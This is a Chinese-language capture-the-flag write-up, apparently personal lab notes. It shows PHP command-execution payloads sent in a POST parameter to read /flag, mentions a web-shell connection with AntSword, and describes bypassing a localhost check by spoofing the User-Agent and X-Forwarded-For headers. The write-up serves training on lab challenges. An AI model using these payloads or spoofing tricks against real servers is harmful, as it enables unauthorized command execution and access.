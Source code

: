 ## 方法一

![image-20250731181529825](E:\note_ctf\assets\image-20250731181529825.png)

```
post传参
wllm=echo `cat /flag`
#cat也可以为tac（反过来输出）
当然也可以
wllm=system("cat /flag");
同样也有
wllm=var_dump(file_get_contents("/flag"));
#var_dump()函数用于输出变量的相关信息（前面介绍过）
file_get_contents()函数用于读取文件
```

![image-20250731181838484](E:\note_ctf\assets\image-20250731181838484.png)

## 方法二

蚁剑连接

![image-20250731182122557](E:\note_ctf\assets\image-20250731182122557.png)

![image-20250731182154179](E:\note_ctf\assets\image-20250731182154179.png)

在根目录里找到flag

# [SWPUCTF 2021 新生赛]Do_you_know_http

![image-20250731182320137](E:\note_ctf\assets\image-20250731182320137.png)

让我们使用wllm浏览器，直接burp抓包进行更改

![image-20250731182453188](E:\note_ctf\assets\image-20250731182453188.png)

修改User-Agent为WLLM，再放包

![image-20250731182531664](E:\note_ctf\assets\image-20250731182531664.png)

要求ip必须为本地

![image-20250731183048545](E:\note_ctf\assets\image-20250731183048545.png)

抓包加入

```
X-Forwarded-for: 127.0.0.1
```

![image-20250731183119899](E:\note_ctf\assets\image-20250731183119899.png)
